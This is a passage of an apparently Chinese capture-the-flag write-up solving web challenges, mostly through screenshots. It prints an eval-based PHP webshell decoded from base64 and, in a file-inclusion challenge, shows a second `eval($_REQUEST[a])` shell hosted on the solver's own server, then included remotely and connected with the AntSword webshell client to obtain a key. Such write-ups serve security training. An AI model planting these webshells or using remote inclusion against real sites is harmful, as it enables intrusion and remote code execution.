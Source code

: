 分析：需要使用 POST，参数 Hello，值任意

base64：`W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=` 解码得到

```php
[@eval(base64_decode($_POST[z0]));]
```

可知需要 POST 参数 z0 且为 base64 编码

![image.png](https://img.ghostliner.top/tCwo3C.png)

成功执行代码

![image.png](https://img.ghostliner.top/88FGJT.png)

获取 key

![image.png](https://img.ghostliner.top/DcOB0h.png)

key 值

![image.png](https://img.ghostliner.top/It3zsL.png)

获取 flag

![image.png](https://img.ghostliner.top/HHXR9a.png)

## 10. 文件包含（三）

![image.png](https://img.ghostliner.top/uhhLDm.png)

访问主页

![image.png](https://img.ghostliner.top/Uez1ob.png)

根据 url 猜测有 `.txt` 后缀补全

测试发现可远程包含

![image.png](https://img.ghostliner.top/9zXZeG.png)

启动 phpstudy，搭建本地站点，创建 123.txt

```php
<?php
    eval($_REQUEST[a]);
    phpinfo();
?>
```

远程访问成功

![image.png](https://img.ghostliner.top/D8JdEM.png)

蚁剑连接成功，获取到 key
